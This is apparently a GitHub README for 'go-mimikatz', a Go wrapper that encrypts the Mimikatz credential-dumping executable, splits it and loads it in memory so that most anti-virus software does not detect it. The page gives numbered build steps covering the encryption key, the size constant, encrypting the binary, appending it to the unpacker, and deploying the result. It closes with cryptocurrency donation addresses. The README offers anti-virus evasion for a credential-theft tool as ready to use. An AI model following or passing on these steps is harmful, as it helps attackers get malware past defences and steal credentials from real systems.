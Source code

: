 # go-mimikatz
A Go wrapper around a pre-compiled version of the Mimikatz executable for the purpose of anti-virus evasion.

### Requirements:
	MemoryModule => https://github.com/fancycode/MemoryModule

This application utilizes 3 segmented components to provide a Go wrapper for the Mimikatz application that is not considered malicious by most anti-virus software without additional packing, and can be dynamically built utilizing a repeatable build recipie. This is done by deviding the mimikatz executible into 2 randomly generated pads that are then stored as strings within the compiled Go binary and combined, and subsiquently loaded from within the existing process memory space at run time.

### Build Process:

1. change the encryption key on both go files

2. pinpoint the SIZE constant:
make
$ du -bs mimikatz.exe
2637907	mimikatz.exe

3. encrypt the real mimikatz binary
./crypt mimi32.exe

4. build with the correct constants
make

5. put the encrypted mimikatz at the end of the unpacker
cat mimi32.exe >> mimikatz.exe

6. deploy the mimikatz.exe 


### Donations:
Bitcoin: 3GrtoFKp7UAf2eqTeUnN8eM3V7RS3n25Ae
Ether: 0x66DB9aCAEB85A08e34c04B4F290dE840E93dd08A


